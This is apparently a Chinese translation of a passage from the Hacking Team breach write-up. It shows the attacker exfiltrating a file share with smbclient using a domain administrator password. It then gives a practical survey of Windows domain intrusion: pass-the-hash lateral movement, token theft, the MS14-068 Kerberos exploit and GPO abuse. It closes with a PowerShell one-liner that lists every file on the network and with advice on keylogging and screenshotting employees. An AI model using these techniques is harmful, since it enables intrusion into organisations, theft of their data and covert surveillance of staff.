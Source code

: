 ### 0x0a 下载档案
现在我已经是域管理了，我开始通过smb客户端和代理去下载各种资源：
```sh
proxychains smbclient '//192.168.1.230/FAE DiskStation' \ -U 'HACKINGTEAM/Administrator%uu8dd8ndd12!' -Tc FAE_DiskStation.tar '*'
```
至此，所有的东西都被下载下来了。


### 0x0b windows域渗透简介
在与HT的故事结束之前，我想对windows内网渗透做一些简介。 
 
#### 1 横向移动(这种名词国内好像还没有对应的术语)
在这里，我跟大家对各种内网渗透的技术做一些回顾。远程执行的方式是需要密码或者本地管理员的hash的。目前为止，最常见的方法是在机器上以管理 员权限用mimikatz本地抓取管理员密码。而比较好的提升权限工具主要是PowerUp和bypassuac。 远程移动：  

1. psexec  windows上这方面很有效的工具。你可以使用psexec，winexe，metasploit的 psexec_psh，powershell 的invoke_psexec或者windows内建函数”sc”。对于metasploit的模块和powershell、pth-winexe，你只 需要hash即可，无需密码。这是最通用的方法，但是也是最不隐蔽的方法。时间类型7045“service control manage”会显示在时间日志中。根据我的经验，没有人会在渗透的时候注意到这个细节，但是这个细节却对事件调查者有一定的帮助。

2. WMI   这是最隐蔽的方法。WMI服务在除了服务器的所有windows机器上都是开着的，服务器上的防火墙默认不会允许该服务通过。你可以使用 wmiexec.py，pth-wmis，powershell 的 invoke_wmi，或者windows上的内建wmic函数。所有的wmic只需要hash。

3. PSRemoting  该功能默认是关闭的，我也不推荐将其开启。但是如果系统管理员已经将其开启了，就非常方便了，特别是如果你用ps干所有的事都很容易，而且不会留下太多足迹。

4. GPO  如果以上所有的方法都被防火墙过滤了，而且你又是域管理，你就可以通过GPO给用户一个登录脚本，安装一个msi，执行一个定时任务或者就像我们看到的 Mauro Romeo 那样利用GPO开启了WMI服务并且关闭了该服务的防火墙过滤。
本地移动：  
1) 盗取token  如果你在一台电脑上有管理权限，你就可以用其他用户的token去获取域资源。这方面主要有两个工具：incognito 和mimikatz token::命令行。  
2)MS14-068  你可以利用Kerberos 的一个bug去获取域管理tickets。  
3)进程注入  任何一款远控都有进程注入的功能。比如meterpreter、pupy中的migrate命令，或者pwershell中的psinject命令。你可以注入到有你需要的token的进程中。  
4)runas  这是一款非常有用的工具，因为它不需要管理员权限。他使用的windows命令，如果你没有gui你可以使用powershell。

#### 2 维持权限
一旦你拥有了权限，首先想到的就是保持权限。权限保持一般只是对于HT这样目标是个人和政治活动者的混蛋来说是个挑战(看来作者跟HT有仇)。对于 渗透一个公司来说，权限保持一般不重要，因为公司一般不会关掉机器。你可以从下面的链接获取更多关于权限维持的技巧。对于渗透一个公司来说，这是不必要 的，反而会增加被发现的几率。 http://www.harmj0y.net/blog/empi ... stence-with-empire/ http://www.hexacorn.com/blog/category/autostart-persistence/ https://blog.netspi.com/tag/persistence/

####3 内部侦查
之前最好的探测windows网络的工具是powerview。这款工具很值得你去阅读以下链接：
http://www.harmj0y.net/blog/tag/powerview/ http://www.harmj0y.net/blog/powe ... view-a-usage-guide/ http://www.harmj0y.net/blog/redteaming/powerview-2-0/ http://www.harmj0y.net/blog/penetesting/i-hunt-sysadmins/ http://www.slideshare.net/harmj0y/i-have-the-powerview
当然，powershell也是很有效的工具，不过在2003和2000的机子上可没有powershell。你也可以像以前那样，用用”net view”这种命令，其他我喜欢的技巧主要有：  
1)下载文件列表    通过一个域管理账户你可以用powerview下载网络中的所有文件的列表：
```sh
Invoke-ShareFinderThreaded -ExcludedShares IPC$,PRINT$,ADMIN$ |
select-string '^(.*) \t-' | %{dir -recurse $_.Matches[0].Groups[1] |
select fullname | out-file -append files.txt}
```

然后你就可以随心所欲选择你想要的文件来下载。  
2)阅读邮件    我们已经知道，你可以用powershell下载邮件，而且它还有很多有用的信息。  
3)查看门户站点    这是许多业务存储重要信息的地方。这个也可以用powershell下载下来。  
5)监视员工    我的兴趣之一就是寻找系统管理员。监视Christian Pozzi（HT的一个管理员）给了我Nagios 服务器的权限以及“Rete Sviluppo”的权限。利用PowerSploit 中的Get-Keystrokes 和 Get-TimedScreenshot、GPO等的组合，你可以监视任何一个员工，甚至是整个域。
